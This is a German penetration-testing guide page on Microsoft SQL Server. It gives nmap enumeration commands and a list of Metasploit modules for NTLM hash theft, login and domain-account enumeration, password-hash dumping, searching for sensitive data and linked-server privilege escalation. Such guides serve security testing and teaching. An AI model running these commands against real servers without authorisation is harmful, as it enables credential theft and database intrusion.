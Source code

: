 > **Microsoft SQL Server** ist ein **relationales Datenbank**-Managementsystem, das von Microsoft entwickelt wurde. Als Datenbankserver ist es ein Softwareprodukt mit der Hauptfunktion, Daten zu speichern und abzurufen, wie von anderen Softwareanwendungen angefordert—die entweder auf demselben Computer oder auf einem anderen Computer über ein Netzwerk (einschließlich des Internets) ausgeführt werden können.\\

**Standardport:** 1433
```
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM
```
### **Standard-MS-SQL-Systemtabellen**

* **master-Datenbank**: Diese Datenbank ist entscheidend, da sie alle systembezogenen Details für eine SQL Server-Instanz erfasst.
* **msdb-Datenbank**: Der SQL Server-Agent nutzt diese Datenbank zur Verwaltung der Planung von Warnungen und Jobs.
* **model-Datenbank**: Dient als Vorlage für jede neue Datenbank auf der SQL Server-Instanz, wobei Änderungen wie Größe, Sortierung, Wiederherstellungsmodell und mehr in neu erstellten Datenbanken widergespiegelt werden.
* **Resource-Datenbank**: Eine schreibgeschützte Datenbank, die Systemobjekte enthält, die mit SQL Server geliefert werden. Diese Objekte, obwohl physisch in der Resource-Datenbank gespeichert, werden logisch im sys-Schema jeder Datenbank präsentiert.
* **tempdb-Datenbank**: Dient als temporärer Speicherbereich für flüchtige Objekte oder Zwischenresultate.

## Aufzählung

### Automatische Aufzählung

Wenn Sie nichts über den Dienst wissen:
```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
msf> use auxiliary/scanner/mssql/mssql_ping
```
{% hint style="info" %}
Wenn Sie **keine Anmeldeinformationen** haben, können Sie versuchen, diese zu erraten. Sie können nmap oder metasploit verwenden. Seien Sie vorsichtig, Sie können **Konten sperren**, wenn Sie sich mehrmals mit einem vorhandenen Benutzernamen anmelden und scheitern.
{% endhint %}

#### Metasploit (Benutzeranmeldeinformationen erforderlich)
```bash
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
```